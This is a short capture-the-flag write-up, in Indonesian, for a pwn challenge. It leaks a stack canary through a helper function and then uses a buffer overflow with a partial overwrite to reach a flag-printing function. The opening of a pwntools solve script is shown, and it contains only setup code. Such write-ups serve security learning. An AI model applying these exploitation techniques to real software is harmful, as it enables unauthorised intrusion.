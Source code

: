 # pwn
---
## Medium pwn
### Vulerability
- buffer overflow
- stack leak
### How To Solve
Untuk menyelesaikan challenge ini kita perlu mendapatkan canary untuk membypass stack check. Disini kita bisa memanfaatkan fungsi gimme_pointer() untuk mendapatkan canary.

![](Pasted%20image%2020230206061956.png)

setelah mendapatkan canary, kita perlu untuk melakukan buffer overflow dan merubah LSB pada stack agar kita bisa masuk ke fungsi yang akan mengeprint flagnya yaitu fungsi this_function_literally_prints_the_flag().

Berikut solve script yang saya gunakan untuk mensolve challenge ini:

```python
from pwn import *
import sys
from Crypto.Util.number import long_to_bytes, bytes_to_long

BINARY = "./ez-pwn-2_patched"
context.binary = exe = ELF(BINARY, checksec=False)
context.terminal = "konsole -e".split()
context.log_level = "INFO"
context.bits = 64
context.arch = "amd64"
context.endian = "little"


def init():
    if args.RMT:
        p = remote(sys.argv[1], sys.argv[2])
    else:
        p = process()
    return Exploit(p), p


class Exploit:
    def __init__(self, p: process):
        self.p = p

    def debug(self, script=None):
        if not args.RMT:
            if script:
                attach(self.p, script)
```